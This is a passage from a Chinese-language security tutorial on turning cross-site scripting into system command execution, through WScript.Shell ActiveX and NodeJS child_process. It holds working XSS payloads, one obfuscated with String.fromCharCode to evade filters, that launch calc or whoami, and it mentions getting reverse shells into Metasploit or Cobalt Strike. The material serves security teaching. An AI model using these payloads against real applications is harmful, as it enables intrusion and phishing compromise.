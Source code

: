 WScript.Shell（Windows Script Host Runtime Library）是一个对象，对应的文件是C:/WINDOWS/system32/wshom.ocx，Wscript.shell是服务器系统会用到的一种组件。4这个对象可以执行操作系统外壳常用的操作，比如运行程序、读写注册表、环境变量等。简单使用如下：

```js
var shell = new ActiveXObject("WScript.Shell");
shell.run("calc.exe");
```

![image-20230524224855708](../../../images/image-20230524224855708-1686840019398.png)

有时候为了 Bypass 也可以使用 `String.fromCharCode` 从 Ascii 来转化恶意代码：

```js
<img src=x onerror="eval(String.fromCharCode(10,118,97,114,32,111,61,110,101,119,32,65,99,116,105,118,101,88,79,98,106,101,99,116,40,39,87,83,99,114,105,112,116,46,115,104,101,108,108,39,41,59,10,111,46,114,117,110,40,39,99,97,108,99,46,101,120,101,39,41,59,10));">
```

### 使用 child_process 执行系统命令

如果目标环境启用了 **NodeJS** 的话，我们也可以利用 NodeJS 的子进程（child_process）调用并执行系统命令：

```js
<img src=x onerror="const exec = require('child_process').exec;exec('whoami').stdout.on('data', function (data) {alert(data);})">

<img src=x onerror="require('child_process').exec('calc');">

<img src=x onerror="require('child_process').exec('<更多稀奇古怪的Payload>');">
```

能执行系统命令了，那么 XSS 在钓鱼攻击中的作用便大大提高了，我们完全可以利用 XSS 反弹 Shell 并上线 Metasploit 或 CS 。

### Xmind 2020 XSS  to RCE
